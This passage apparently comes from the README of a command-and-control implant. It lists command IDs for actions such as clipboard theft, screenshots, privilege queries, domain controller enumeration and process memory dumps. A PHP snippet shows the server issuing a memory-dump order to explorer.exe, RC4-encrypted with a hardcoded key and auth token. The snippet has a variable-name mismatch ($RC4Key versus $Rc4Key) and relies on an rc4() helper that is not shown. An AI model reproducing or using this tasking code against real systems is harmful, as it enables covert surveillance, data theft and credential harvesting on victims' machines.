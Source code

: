 | Command ID   | Description             | Parameter         |
| :----------- | :---------------------- | :----------------:|
| "\x9f\x3c"   | [GetCurrentDirectory](#GetCurrentDirectory) | NA                |
| "\x3f\xd5"   | [GetIpTable](#GetIpTable) | NA                |
| "\xfe\x4f"   | [GetAccountPrivileges](#GetAccountPrivileges) | NA                |
| "\x91\x03"   | [LockWorkStation](#LockWorkStation) | NA                |
| "\x09\x06"   | [GetLogicalDrives](#GetLogicalDrives) | NA                |
| "\x01\x0a"   | [GetSystemUptime](#GetSystemUptime) | NA                |
| "\x06\x0b"   | [GetLastInputInfo](#GetLastInputInfo) | NA                |
| "\x03\x07"   | [ExitProcess](#ExitProcess) | NA                |
| "\x05\x06"   | [RevertToSelf](#RevertToSelf) | NA                |
| "\x05\x01"   | [GetClipBoardData](#GetClipBoardData) | NA                |
| "\x44\xc1"   | [EnumDevicesDrivers](#EnumDevicesDrivers) | NA                |
| "\x41\x9c"   | [Screenshot](#Screenshot) | NA                |
| "\xcb\xe3"   | [GetDomainControlerInfo](#GetDomainControlerInfo) | NA                |
| "\x16\xf6"   | [GetNetworkAdaptersInfo](#GetNetworkAdaptersInfo) | NA                |
| "\x03\x08"   | [ExitThread](#ExitThread) | NA                |
| "\x34\x49"   | [GetMemoryDump](#GetMemoryDump) | "processname.exe" |
| "\x39\xb3"   | [GetTcpUdpTables](#GetTcpUdpTables) | NA                | 
| "\x1a\xd4"   | [GetIpForwardTable](#GetIpForwardTable) | NA                | 
| "\x9a\xbe"   | [QuerySessionInformation](#QuerySessionInformation) | NA                | 
| "\xb7\x38"   | [GetDnsCacheDataTable](#GetDnsCacheDataTable) | NA                |

# Command Syntax  

On the C2 side, a command can be issued this way (example with the GetMemoryDump order) :  

```php
$RC4Key = "S47EFEUO3D2O6641";
$auth_token = "OV1T557KBIUECUM5";

function GetMemoryDump($process_name)
{
	$cmd_id = "\x34\x49 $process_name";
	$cmd_id_b64 = base64_encode($cmd_id);
	
	return $cmd_id_b64;
}

if ($_SERVER['REQUEST_METHOD'] === 'POST')
{
	$cmd_id_b64 = GetMemoryDump("explorer.exe");
	
	$cmd = "$auth_token, $cmd_id_b64";
	$cmd_enc = rc4($Rc4Key, $cmd);
	$cmd_b64 = base64_encode($cmd_enc);
	echo $cmd_b64;
	
	return;
}
```